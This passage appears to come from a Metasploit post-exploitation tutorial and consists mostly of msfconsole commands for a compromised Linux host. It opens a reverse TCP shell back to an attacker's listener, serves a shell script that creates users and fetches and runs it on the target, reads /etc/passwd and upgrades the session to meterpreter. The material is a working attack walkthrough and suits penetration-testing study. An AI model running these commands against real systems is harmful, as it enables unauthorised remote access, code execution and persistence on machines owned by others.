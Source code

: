 > This lists down all the users history and commands that a specific user ran. It is saved in `loot` as well and you can access the saved data from there as well.

```msfconsole
use post/multi/manage/system_session
set SESSION <session-id>
set TYPE python
set HANDLER true
set LHOST <host-ip>
run
```

> This module will create a Reverse TCP Shell on the target system using the system's own scripting environments installed on the target.

***FUN STUFF***

```bash
useradd hacker
useradd test
useradd nick
```

> Create a file with the following data and name it as `test.sh`.

```shell
/etc/init.d/apache2 start
cp test.sh /var/www/html
```

> Turn the `apache2` and copy the created file in the `/var/www/html` directory

```msfconsole
use post/linux/manage/download_exec
set URL http://<HOST-IP>/test.sh
set SESSION 1
run
```

> Now use this module to download and run the file on the target machine.

```msfconsole
sessions -i 1
cat /etc/passwd
```

> Now after the execution three users will be created you can check them using the following commands.

#### Linux Privilege Escalation: Exploiting a vulnerable program

***IT DEPENDS ON THE VERSION OF THE LINUX KERNEL RUNNINGON THE MACHINE AND THE DISTRIBUTION VERSION***

```ruby
sessions -u <session-id>
```

> This command can be used to upgrade your current session into a meterpreter session and if it gives you can error then don't worry you can check the new session from the `sessions` command and than load the new one.
